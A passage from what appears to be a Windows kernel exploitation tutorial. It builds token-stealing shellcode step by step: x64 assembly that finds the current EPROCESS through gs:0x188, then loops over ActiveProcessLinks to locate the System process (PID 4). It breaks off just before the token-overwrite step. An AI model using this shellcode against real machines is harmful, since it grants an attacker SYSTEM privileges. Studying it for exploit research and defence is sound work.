 So now we know where our current process resides in the kernel (just like `kd`
gave us using `!process 0 0 cmd.exe` earlier), and therefore the first of our
shellcode:

```asm
  mov rax, gs:0x188
  mov rax, [rax + 0xb8]
```


## Browsing through the process list to reach `System`

The processes are stored in the `ActiveProcessLinks` (offset 0x2e8) of the
`nt!_EPROCESS` structure, via a `_LIST_ENTRY`, which is a doubly linked list in
its simplest form:

```txt
kd> dt _LIST_ENTRY
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

Since we know that `System` process ID is 4, we can write a very small loop in
assembly, whose pseudo-C code would be:

```c
ptrProcess = curProcess
while ptrProcess->UniqueProcessId != SystemProcess->UniqueProcessId (4) {
   ptrProcess = ptrProcess->Flink
}
```

Which builds the second part of our shellcode:

```asm
;; rax has the pointer to the current KPROCESS
mov rbx, rax

__loop:
mov rbx, [rbx + 0x2e8] ;; +0x2e8  ActiveProcessLinks[0].Flink
sub rbx, 0x2e8 ;; nextProcess
mov rcx, [rbx + 0x2e0] ;; +0x2e0  UniqueProcessId
cmp rcx, 4 ;; compare to target PID
jnz __loop

;; here rbx hold a pointer to System structure
```


## Overwrite the current process token field with `System`'s

This is the third and final part of our shellcode, and the easiest since
everything was done in the steps above:
